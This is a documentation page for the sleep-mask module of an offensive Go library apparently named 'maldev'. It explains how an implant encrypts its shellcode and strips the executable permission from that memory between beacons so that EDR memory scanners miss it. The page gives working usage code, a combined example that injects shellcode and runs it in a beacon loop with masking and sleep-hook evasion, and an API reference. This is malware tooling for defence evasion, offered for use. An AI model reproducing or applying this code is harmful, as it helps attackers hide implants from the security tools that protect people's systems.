

# Encrypted Sleep (Sleep Mask)

> **MITRE ATT&CK:** T1027 -- Obfuscated Files or Information | **D3FEND:** D3-SMRA -- System Memory Range Analysis | **Detection:** Low

## Primer

When you go to sleep at night, you are vulnerable -- anyone could search your house and read your diary. But what if, every night before bed, you lock your diary in a safe with a random combination, and when you wake up, you unlock it and continue writing? Anyone who searches your house while you sleep finds only an unreadable locked safe.

The sleep mask technique does this for shellcode in memory. When the implant enters a sleep cycle (waiting between beaconing intervals), it XOR-encrypts its own memory regions with a random key and downgrades the page permissions from executable (`RX`) to just readable/writable (`RW`). Memory scanners that sweep the process during sleep find only encrypted gibberish in non-executable pages -- no signatures match, no code is detected. When the sleep ends, the mask decrypts the regions and restores the original permissions.

This defeats periodic memory scanning, which is how many EDR products detect in-memory implants. Without the sleep mask, the shellcode sits in executable memory 24/7, giving scanners unlimited time to find it.

## How It Works



**Step-by-step:**

1. **Generate key** -- Create a random 32-byte XOR key using `crypto/rand`.
2. **Encrypt regions** -- For each registered memory region, XOR every byte with the repeating key.
3. **Downgrade permissions** -- `VirtualProtect` each region to `PAGE_READWRITE`, removing the executable bit. Save original protections.
4. **Sleep** -- Either `time.Sleep` (standard, hookable) or `BusyWaitTrig` (CPU-burn trigonometric busy wait that defeats Sleep hooks and sandbox time-acceleration).
5. **Decrypt regions** -- XOR again with the same key (XOR is self-inverse) to restore the original bytes.
6. **Restore permissions** -- `VirtualProtect` each region back to its original protection (e.g., `PAGE_EXECUTE_READ`).
7. **Zero key** -- Overwrite the key bytes in memory to prevent forensic recovery.

## Usage

```go
package main

import (
    "time"

    "github.com/oioio-space/maldev/evasion/sleepmask"
)

func main() {
    // Register memory regions to encrypt during sleep.
    mask := sleepmask.New(
        sleepmask.Region{Addr: shellcodeAddr, Size: shellcodeSize},
    )

    // Sleep for 30 seconds with encrypted memory.
    mask.Sleep(30 * time.Second)
}
```

## Combined Example

```go
package main

import (
    "time"
    "unsafe"

    "github.com/oioio-space/maldev/evasion/sleepmask"
    "github.com/oioio-space/maldev/inject"
    "golang.org/x/sys/windows"
)

func main() {
    shellcode := []byte{ /* ... */ }

    // Allocate and write shellcode.
    addr, _ := windows.VirtualAlloc(0, uintptr(len(shellcode)),
        windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_READWRITE)
    copy((*[1 << 20]byte)(unsafe.Pointer(addr))[:len(shellcode)], shellcode)
    var old uint32
    windows.VirtualProtect(addr, uintptr(len(shellcode)), windows.PAGE_EXECUTE_READ, &old)

    // Create sleep mask for the shellcode region.
    mask := sleepmask.New(
        sleepmask.Region{Addr: addr, Size: uintptr(len(shellcode))},
    ).WithMethod(sleepmask.MethodBusyTrig) // defeat Sleep hooks

    // Beacon loop: execute, then sleep with encrypted memory.
    for {
        inject.ExecuteCallback(addr, inject.CallbackEnumWindows)
        mask.Sleep(30 * time.Second) // encrypted during sleep
    }
}
```

## Advantages & Limitations

| Aspect | Detail |
|--------|--------|
| Stealth | High -- memory scanners find only encrypted RW pages during sleep. No executable code is visible. |
| Key management | 32-byte random key per sleep cycle, zeroed after use. |
| Permission handling | Saves and restores ORIGINAL page protections (not hardcoded). Handles mixed RX/RWX regions correctly. |
| Sleep methods | `MethodNtDelay` (standard `time.Sleep`) or `MethodBusyTrig` (CPU-burn, defeats sandbox time-acceleration and Sleep hooks). |
| Multiple regions | Supports encrypting multiple non-contiguous memory regions per sleep cycle. |
| Limitations | The sleep mask code itself must remain unencrypted and executable. Very short sleep intervals add CPU overhead from encrypt/decrypt cycles. The XOR key is in memory briefly (zeroed after). |
| Self-encryption | The mask encrypts the regions but cannot encrypt itself -- a small code footprint remains scannable. |

## Compared to Other Implementations

| Feature | maldev | Sliver | CobaltStrike | D3Ext/maldev |
|---------|--------|--------|--------------|--------------|
| XOR encryption | 32-byte random key | AES | XOR (sleep mask BOF) | No |
| Permission downgrade | RW during sleep | Yes | Yes | N/A |
| Busy wait option | `MethodBusyTrig` | No | No | No |
| Multi-region support | Yes | No | No | N/A |
| Original protection restore | Yes (saved per region) | Yes | Yes | N/A |
| Key zeroing | Yes | Yes | Unknown | N/A |

## API Reference

```go
// Region describes a memory region to encrypt during sleep.
type Region struct {
    Addr uintptr
    Size uintptr
}

// SleepMethod controls how the sleep is performed.
type SleepMethod int
const (
    MethodNtDelay  SleepMethod = iota  // standard time.Sleep
    MethodBusyTrig                      // CPU-burn busy wait
)

// New creates a Mask for the given memory regions.
func New(regions ...Region) *Mask

// WithMethod sets the sleep method (default: MethodNtDelay).
func (m *Mask) WithMethod(method SleepMethod) *Mask

// Sleep encrypts regions, sleeps, then decrypts and restores permissions.
func (m *Mask) Sleep(d time.Duration)
```
